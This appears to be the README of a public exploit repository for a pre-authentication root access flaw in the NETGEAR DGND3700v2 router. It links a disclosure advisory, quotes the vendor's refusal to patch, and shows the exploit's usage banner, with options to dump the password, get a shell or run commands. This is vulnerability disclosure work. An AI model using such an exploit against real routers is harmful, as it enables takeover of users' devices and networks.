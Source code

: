 I worked with [SSD Disclosure](https://ssd-disclosure.com/) to address those issues and here is the advisory: [SSD Advisory – NETGEAR DGND3700v2 PreAuth Root Access](https://ssd-disclosure.com/ssd-advisory-netgear-dgnd3700v2-preauth-root-access/).

Unfortunately for users, it seems that NETGEAR has refused to address the vulnerabilities; here is the vendor statement:

> NETGEAR will not release a fix for this vulnerability on the affected product as the product is outside of the security support period. Current in-support models are not affected by this vulnerability.

On top of the vulnerabilities exploited and the lack of security support from NETGEAR, the overall security of this device is probably the worst I've seen in a very long time - I would highly recommend moving off this device and getting another one (that's what I personally did).

## Running the exploit

There are two ways to run the exploit:
- a LAN version that also works against devices that have turned on remote management,
- directly from the Internet (like in a browser exploit). You can check if your router is affected by visiting [0vercl0k.github.io/longue-vue](https://0vercl0k.github.io/longue-vue).

### LAN / remote management turned on

[longue-vue.py](src/longue-vue.py) is the exploit code for LAN side / when remote management is enabled:

```
>python longue-vue.py

           .    '                   .  "   '
                  .  .  .                 '      '
          "`       .   .
                                           '     '
        .    '      _______________
                ==c(___(o(______(_()
                        \=\
                         )=\
                        //|\\
                       //|| \\
                      // ||  \\
                     //  ||   \\
                    //         \\
    «Longue vue» LAN exploit targeting NETGEAR DGND3700v2
              by Axel '0vercl0k' Souchet

usage: Longue vue [-h] [--dump-pwd] [--shell] [--cmd CMD] [--target TARGET]

optional arguments:
  -h, --help       show this help message and exit
  --dump-pwd
  --shell
  --cmd CMD
  --target TARGET
```
